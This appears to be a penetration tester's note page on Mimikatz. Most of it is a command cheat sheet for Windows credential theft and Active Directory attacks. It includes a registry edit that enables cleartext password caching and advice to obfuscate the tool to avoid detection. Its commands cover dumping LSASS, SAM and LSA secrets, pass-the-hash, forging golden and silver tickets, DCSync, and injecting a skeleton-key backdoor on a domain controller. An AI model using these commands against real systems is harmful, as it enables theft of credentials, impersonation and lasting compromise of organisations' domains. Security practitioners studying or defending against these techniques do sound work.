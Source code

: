 Mimikatz is a windows tool used to enumerate passwords and hashes from the Windows SAM, which can be acquired by Mimikatz or via a process dump by [[Procdump]] or in Task Manager , and from LSASS. It can further be used to abuse the Kerberos protocol by impersonating users via tickets or password hashes. 

> [!danger] Detection Risk 
> Mimikatz is well signatured. This must be obfuscated or otherwise disguised before running, as with most tools. 

Mimikatz is run as an executable and prompts the user with a command line interface.

Enable WDigest (cleartext in-memory) credentials with the following registry edit:
```powershell
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1
```

| Mimikatz Command                                                                                                                                                                                                               | Description                                                                                                                                                              |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| `privilege::debug`                                                                                                                                                                                                             | Check for SeDebugPrivilege availability in current session                                                                                                               |
| `sekurlsa::msv`                                                                                                                                                                                                                | Pull password hashes from LSASS memory via injection.                                                                                                                    |
| `sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<hash>`                                                                                                                                                                     | Perform a Pass-The-Hash attack to impersonate a new user                                                                                                                 |
| `sekurlsa::logonPasswords`                                                                                                                                                                                                     | Get passwords and hashes by any means possible (cleartext creds require WDigest to be enabled)                                                                           |
| `sekurlsa::minidump \<dumpfile\>`                                                                                                                                                                                              | Examine a specific .dmp file gnerated via procdump or TM                                                                                                                 |
| `sekurlsa::ekeys`                                                                                                                                                                                                              | List Kerberos encryption keys                                                                                                                                            |
| `sekurlsa::dpapi`                                                                                                                                                                                                              | List DPAPI master keys for browser-stored credentials and the Windows Credential Vault                                                                                   |
| `sekurlsa::tickets /export`                                                                                                                                                                                                    | Export Kerberos tickets in memory to files for PTT.                                                                                                                      |
| `kerberos::ptt <ticket>`                                                                                                                                                                                                       | Perform PTT attack and store a provided ticket in memory. (Verify with `klist` outside of mimikatz)                                                                      |
| `kerberos::golden /user:<your username> /domain:<domain> /sid:<SID> /krbtgt:<KRBTGT hash from lsa (golden only)> /service:<service name (silver only) /rc4:<Service NTLM hash (silver only)> /id:<500 (golden)/1103 (silver)>` | Create a golden or silver ticket with Mimikatz and add it to your mimikatz session.                                                                                      |
| `lsadump::sam`                                                                                                                                                                                                                 | Dump the SAM                                                                                                                                                             |
| `lsadump::dcsync /domain:contoso.local /user:adminisrtator@contoso.local`                                                                                                                                                      | Request a DC sync to acquire the NTLM (or RC4 decrypted) hash for the given user. Must be run in the context of a user with DCSync rights.                               |
| `lsadump::cache`                                                                                                                                                                                                               | Load cached credentials from the registry                                                                                                                                |
| `lsadump::lsa /inject /name:krbtgt`                                                                                                                                                                                            | Dump the KRBTGT for creating Golden Tickets. Change `krbtgt` to a service account or DA to make a silver ticket.                                                         |
| `lsadump::secrets`                                                                                                                                                                                                             | Dump secrets on host, including active TGTs in memory owned by service accounts and cleartext credentials for logged-in users.                                           |
| `vault::list`                                                                                                                                                                                                                  | List the vaults on a system                                                                                                                                              |
| `vault:cred`                                                                                                                                                                                                                   | List credentials in a vault                                                                                                                                              |
| `misc::cmd`                                                                                                                                                                                                                    | Open an elevated command prompt with the privileges/tickets currently obtained.                                                                                          |
| `misc::skeleton`                                                                                                                                                                                                               | Inject a skeleton key backdoor into the forest's memory. From here, you may use the password 'mimikatz' with any user in the domain. Must be run on a domain controller. |

See also: [[Pypykatz]]
